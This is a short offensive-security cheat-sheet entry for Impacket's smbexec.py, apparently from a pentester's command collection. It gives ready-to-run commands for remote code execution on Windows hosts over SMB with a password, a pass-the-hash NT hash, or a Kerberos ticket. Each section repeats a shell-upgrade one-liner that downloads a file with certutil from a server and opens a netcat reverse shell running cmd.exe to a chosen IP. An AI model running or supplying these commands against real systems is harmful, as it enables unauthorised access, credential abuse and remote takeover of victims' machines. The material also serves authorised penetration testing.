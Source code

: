 # smbexec.py (imp)

%  windows, impacket-exec, smb
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  

## desc
```
A similar approach to PSEXEC w/o using RemComSvc. 
```

## execute (creds)
create a new service 'BTOBTO' (using temp bat files via SMB)
upgrade full shell :
    certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```bash
smbexec.py -debug -shell-type powershell <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## execute (pth)
create a new service 'BTOBTO' (using temp bat files via SMB)
upgrade full shell :
    certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```bash
smbexec.py -debug  -shell-type powershell -hashes :<nt_hash> <domain_fqdn>/<user>@<target_fqdn>
```

## execute (ptt)
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```bash
KRB5CCNAME=<ccache> smbexec.py -debug  -shell-type powershell -no-pass -k <target_fqdn>
```
